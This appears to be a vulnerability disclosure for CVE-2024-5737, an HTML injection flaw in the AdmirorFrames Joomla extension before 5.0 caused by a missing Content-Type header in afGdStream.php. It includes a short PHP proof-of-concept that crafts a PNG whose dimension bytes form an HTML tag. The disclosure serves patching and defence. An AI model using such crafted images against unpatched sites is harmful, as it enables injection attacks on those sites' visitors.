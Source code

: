 # CVE-2024-5737
AdmirorFrames Joomla! Extension < 5.0 - HTML Injection

## Timeline
- Vulnerability reported to vendor: 26.01.2024
- New fixed 5.0 version released: 06.06.2024
- Public disclosure: 28.06.2024

## Description

HTML Injection in AdmirorFrames Joomla! Extension in `afGdStream.php` file which doesn't set up `Content-Type` header value before sending image data. This causes PHP to send default value of this header (`text/html`) and causes image data to be interptreted as HTML document.  

Example PHP script that generates PNG with width and height fields set to `<s>` HTML tag:
```
<?php
$_payload="AAA";
if(strlen($_payload)%3!=0){
 echo "payload%3==0 !\n"; exit();
}
$_pay_len=strlen($_payload);
echo "LEN: $_pay_len\n";
$width=0x733e; //<s>
$height=0x3c;
$im = imagecreate($width, $height);

$_hex=unpack('H*',$_payload);
$_chunks=str_split($_hex[1], 6);

for($i=0; $i < count($_chunks); $i++){

  $_color_chunks=str_split($_chunks[$i], 2);
  $color=imagecolorallocate($im,hexdec($_color_chunks[0]),hexdec($_color_chunks[1]),hexdec($_color_chunks[2]));

  imagesetpixel($im,$i,1,$color);

}

imagepng($im,"example.png");
```

Result of rendering `example.png` proof of concept file by web browser:
![proof of concept](poc.png)

This issue was caused by usage of default value of `Content-Type` header. This problem has been fixed in AdmirorFrames Joomla! Extension at version 5.0.

## Affected versions
< 5.0 

## Advisory
Update AdmirorFrames Joomla! Extension to version 5.0 or newer.

### References
* https://github.com/vasiljevski/admirorframes/issues/3
* https://cert.pl/en/posts/2024/06/CVE-2024-5735/
* https://cert.pl/posts/2024/06/CVE-2024-5735/
* https://nvd.nist.gov/vuln/detail/CVE-2024-5737
